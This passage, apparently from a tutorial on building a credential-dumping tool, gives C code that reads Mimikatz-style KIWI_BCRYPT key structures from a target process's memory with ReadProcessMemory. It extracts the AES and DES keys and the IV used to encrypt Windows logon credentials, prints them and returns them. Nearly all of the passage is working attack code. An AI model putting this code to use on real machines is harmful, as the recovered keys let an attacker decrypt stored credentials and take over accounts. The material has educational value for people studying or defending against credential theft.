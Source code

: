 We read that address and have the structures in local memory now.

```c
	//read pointer to remote key handle -> local memory
	KIWI_BCRYPT_HANDLE_KEY hAesKeyHandlLocal;
	KIWI_BCRYPT_HANDLE_KEY hDesKeyHandleLocal;
	if (!ReadProcessMemory(hTarget, hAesKeyRemote, &hAesKeyHandlLocal, sizeof(hAesKeyHandlLocal), &written)) {
		printf("Could not retr AES Offset to BCRYPT_KEY_HANDLE");
		return;
	}
	if (!ReadProcessMemory(hTarget, hDesKeyRemote, &hDesKeyHandleLocal, sizeof(hDesKeyHandleLocal), &written)) {
		printf("Could not retr AES Offset to BCRYPT_KEY_HANDLE");
		return;
	}
```

And now we need to go within this structure to find the `KIWI_BCRYPT_KEY81` so we can eventually find the `KIWI_HARD_KEY`

Keep in mind that the `KIWI_BCRYPT_HANDLE_KEY` structure just stores a pointer to `KIWI_BCRYPT_KEY81` so we read that memory address and pull it back into local memory.


```c
KIWI_BCRYPT_KEY81 aes81Key;
KIWI_BCRYPT_KEY81 des81Key;


if (!ReadProcessMemory(hTarget, hAesKeyHandlLocal.key, &aes81Key, sizeof(KIWI_BCRYPT_KEY81), &written)) {
	printf("Could not retr AES81 Key");
	return;
}
if (!ReadProcessMemory(hTarget, hDesKeyHandleLocal.key, &des81Key, sizeof(KIWI_BCRYPT_KEY81), &written)) {
	printf("Could not retr AES81 Key");
	return;
}
```

And now the `KIWI_BCRYPT_KEY81` has the entire `KIWI_HARD_KEY` structure stored within it, not another pointer.  This means we can directly reference it now that its in local memory.

```c
BYTE AESKeyBytes[AESKeySize]; // should this be sized to cbSecret?
BYTE DESKeyBytes[DESKeySize];

memcpy(AESKeyBytes, aes81Key.hardkey.data,aes81Key.hardkey.cbSecret);
memcpy(DESKeyBytes, des81Key.hardkey.data, des81Key.hardkey.cbSecret);

//memcpy(DESKeyBytes, des81Key.hardkey.data, des81Key.hardkey.cbSecret);

//now we should have the AES & DES Keys

printKeyBytes(AESKeyBytes, aes81Key.hardkey.cbSecret, "AES KEY");
printKeyBytes(DESKeyBytes, des81Key.hardkey.cbSecret, "DES KEY");
printKeyBytes(IV, sizeof(IV), "Initialization Vector");

//printKeyBytes(DESKeyBytes, des81Key.hardkey.cbSecret, "DES KEY");

memcpy(keysOut->AESKey, AESKeyBytes, aes81Key.hardkey.cbSecret);
memcpy(keysOut->DESKey, DESKeyBytes, des81Key.hardkey.cbSecret);
memcpy(keysOut->IVKey, IV, sizeof(IV));

keysOut->AESKeyLen = AESKeySize;
keysOut->DESKeyLen = DESKeySize;
```